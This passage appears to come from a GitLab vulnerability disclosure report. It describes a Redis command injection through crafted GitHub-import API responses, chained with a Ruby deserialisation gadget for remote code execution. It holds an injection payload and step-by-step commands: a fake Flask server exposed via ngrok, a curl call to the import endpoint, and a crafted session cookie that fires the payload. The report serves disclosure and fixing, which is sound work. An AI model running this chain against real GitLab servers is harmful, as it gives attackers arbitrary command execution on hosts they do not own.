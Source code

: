 So by returning an api response with a `default_branch` that overrides `to_s` and `bytesize` you can call arbitrary redis commands:

```json
        {
            "default_branch": {
                "to_s": {
                    "to_s": 'ggg\r\nINJECT_RESP_HERE',
                    "bytesize": 3,
                }
            }
        }
```

This can be combined with a call to `Marshal.load` when loading a _gitlab_session to execute a deserialisation gadget (such as https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) and gain RCE.

### Steps to reproduce

1. edit {F1882976} and change the command at `git_set`, that will be the command that is executed
1. change the `session:gitlab:gggg`  to be something other than `gggg`
1. run `ruby ./gen_payload3.rb` and copy the payload
1. edit {F1882972} and update the payload
1. run `ngrok http 5000` and copy the url
1. edit `fake_server3.py` and update the ngrok url
1. run the server with `FLASK_APP=fake_server3.py flask run`
1. run `curl --request POST --url "http://gitlab.wbowling.info/api/v4/import/github"  --header "content-type: application/json" --header "PRIVATE-TOKEN: API_TOKEN" --data "{\"personal_access_token\": \"fake_token\",\"repo_id\": \"12345\",\"target_namespace\": \"root\",\"new_name\": \"gh-import-$RANDOM\",\"github_hostname\": \"https://9895-45-248-49-157.ngrok.io\"}"` replacing `gitlab.wbowling.info` with your gitlab url, `API_TOKEN` with a valid gitlab token, `target_namespace` with a namespace you have access to, and `github_hostname` with your ngrok url
1. wait a minute or so, you should see requests coming in to the flask app. Once you see a request for `/api/v3/repos/fake/name` that should be long enough, there will also be an error in `/var/log/gitlab/gitlab-rails/exceptions_json.log` about `comparison of String with 0 failed`
1. run `curl -v 'http://gitlab.wbowling.info/root' -H 'Cookie: _gitlab_session=gggg'` replacing `gitlab.wbowling.info` with your gitlab url and `gggg` with the string you used in `gen_payload3.rb`
1. the payload should have executed

### Impact

Allows an attacker with the ability to import a github repo to execute arbitrary commands on the server

### Examples

See attached scripts and steps to reproduce

### What is the current *bug* behavior?

The `Sawyer::Resource` object is passed around and allows an attacker to override builtin methods

### What is the expected *correct* behavior?
